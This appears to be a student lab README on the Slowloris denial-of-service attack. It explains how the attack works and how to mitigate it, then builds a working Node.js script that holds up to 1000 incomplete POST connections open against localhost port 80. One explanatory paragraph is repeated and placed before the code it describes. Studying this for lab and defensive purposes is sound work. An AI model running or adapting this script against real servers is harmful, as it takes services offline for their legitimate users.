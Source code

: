 # SI Lab2

What is a Slowloris DDoS attack?
-
Slowloris is a denial-of-service attack program which allows an attacker to overwhelm a targeted server by opening and maintaining many simultaneous HTTP connections between the attacker and the target.


How does a Slowloris attack work?
--
Slowloris is an application layer attack which operates by utilizing partial HTTP requests. The attack functions by opening connections to a targeted Web server and then keeping those connections open as long as it can.

Slowloris is not a category of attack but is instead a specific attack tool designed to allow a single machine to take down a server without using a lot of bandwidth. Unlike bandwidth-consuming reflection-based DDoS attacks such as NTP amplification, this type of attack uses a low amount of bandwidth, and instead aims to use up server resources with requests that seem slower than normal but otherwise mimic regular traffic. It falls in the category of attacks known as “low and slow” attacks. The targeted server will only has so many threads available to handle concurrent connections. Each server thread will attempt to stay alive while waiting for the slow request to complete, which never occurs. When the server’s maximum possible connections has been exceeded, each additional connection will not be answered and denial-of-service will occur.

A Slowloris attack occurs in 4 steps:
--
* The attacker first opens multiple connections to the targeted server by sending multiple partial HTTP request headers.
* The target opens a thread for each incoming request, with the intent of closing the thread once the connection is completed. In order to be efficient, if a connection takes too long, the server will timeout the exceedingly long connection, freeing the thread up for the next request.
* To prevent the target from timing out the connections, the attacker periodically sends partial request headers to the target in order to keep the request alive. In essence saying, “I’m still here! I’m just slow, please wait for me.”
* The targeted server is never able to release any of the open partial connections while waiting for the termination of the request. Once all available threads are in use, the server will be unable to respond to additional requests made from regular traffic, resulting in denial-of-service.
The key behind a Slowloris is its ability to cause a lot of trouble with very little bandwidth consumption.

How is a Slowloris attack mitigated?
--
For Web servers that are vulnerable to Slowloris, there are ways to mitigate some of the impact. Mitigation options for vulnerable servers can be broken down into 3 general categories:

* Increase server availability - Increasing the maximum number of clients the server will allow at any one time will increase the number of connections the attacker must make before they can overload the server,. Realistically, an attacker may scale the number of attacks to overcome server capacity regardless of increases.
* Rate limit incoming requests - Restricting access based on certain usage factors will help mitigate a Slowloris attack. Techniques such as limiting the maximum number of connections a single IP address is allowed to make, restricting slow transfer speeds, and limiting the maximum time a client is allowed to stay connected are all approaches for limiting the effectiveness of low and slow attacks.
* Cloud-based protection - Use a service that can function as a reverse proxy, protecting the origin server.

Implementation
--
We start with some globals - net, which we use for the net library to establish and manage connections to the target server; maxConnections, which is our setting for how many simultaneous connections we want to maintain to the target; connections, which is an array to store and keep track of our active connections to the target, and host and port, which is the address and port we want the script to execute against. In our example, we're connecting to port 80 on localhost (127.0.0.1):
    
```javascript
    var net = require('net');

    var maxConnections	= 1000;
    var connections		= [];

    var host	= "127.0.0.1";
    var port	= 80;
```

Additionally, we'll have a property client which manages the connection itself. When we establish the connection we pass the target port and host, and a handler function which notifies us we're sending data and sends an incomplete POST payload. The important thing is that the Content-Length property is longer than the information we send, so the server is still expecting more data from us.
In a better version of this attack we may periodically send more data to the server to keep refreshing the timeout for this connection, but would avoid ever sending the complete request (or at least take as long as possible in doing so).

We'll also make a class for tracking and managing each connection. Our Connection class will take 2 arguments, h (host), and p (port), which the script will provide from our settings. We'll also set the properties, t (to keep track of time the connection is alive), and state (the current state of the connection: active if the connection is still working, otherwise ended or error).
```javascript
    function Connection(h, p){
	this.state	= 'active';
	this.t		= 0;

```
Additionally, we'll have a property client which manages the connection itself. When we establish the connection we pass the target port and host, and a handler function which notifies us we're sending data and sends an incomplete POST payload. The important thing is that the Content-Length property is longer than the information we send, so the server is still expecting more data from us.
In a better version of this attack we may periodically send more data to the server to keep refreshing the timeout for this connection, but would avoid ever sending the complete request (or at least take as long as possible in doing so).
	
```javascript
	this.client = net.connect({port:p, host:h}, () => {
		process.stdout.write("Connected, Sending... ");
		
		this.client.write("POST / HTTP/1.1\r\nHost: "+host+"\r\n" +
			"Content-Type: application/x-www-form-urlenconded\r\n" +
			"Content-Length: 385\r\n\r\nvx=321&d1=fire&l");
		
		process.stdout.write("Written.\n");
    });
    
```

We also want to handle some events for the connection. Firstly, if the target sends us any data back, it's not listening to us anymore. We'll show how much information was received and end this connection:
```javascript
	
	this.client.on('data', (data) => {
		console.log("\t-Received "+data.length+" bytes...");
		this.client.end();
	});
```
Now to handle the end event, firstly calculating the time this connection was alive, and also changing the state of the Connection object to ended, so we know we don't need it anymore.
```javascript

	this.client.on('end', () => {
		var d = Date.now() - this.t;
		this.state = 'ended';
```

We'll also show the time the connection was alive and how many connections remain open

```javascript

			console.log("\t-Disconnected (duration: " +
			(d/1000).toFixed(3) +
			" seconds, remaining open: " +
			connections.length +
			").");
	});
```

We'll also add a handler for the error event; if an error occurs, we simply want to change the Connection state to error, so we know it can be removed:
```javascript
	this.client.on('error', () => {
		this.state = 'error';
	});
```
Finally, we add the Connection to our connections array, and the object method is complete.
```javascript
	connections.push(this);
```
Managing all the connections

To establish and track the connections, we'll set up an interval to run twice a second; it'll start with a flag (notify) that lets us know if we want to show output this iteration.
```javascript

     setInterval(() => {
        var notify = false;
```
If we haven't reached our maxConnections connection limit, we create a new Connection and change our notify flag so we'll show output:

```javascript
	if(connections.length < maxConnections)
	{
		new Connection(host, port);
		notify = true;
	}
```

We'll also clear the connections array of any Connection objects that are not active.

```javascript

	connections = connections.filter(function(v) {
		return v.state=='active';
	});
```

Finally, if the notify flag is set we'll show how many active connections we currently have, and close the interval function, as well as specifying the interval repetition rate (500 milliseconds).

```javascript
	if(notify)
	{
		console.log("Active connections: " + connections.length +
			" / " + maxConnections);
	}
    }, 500);
```

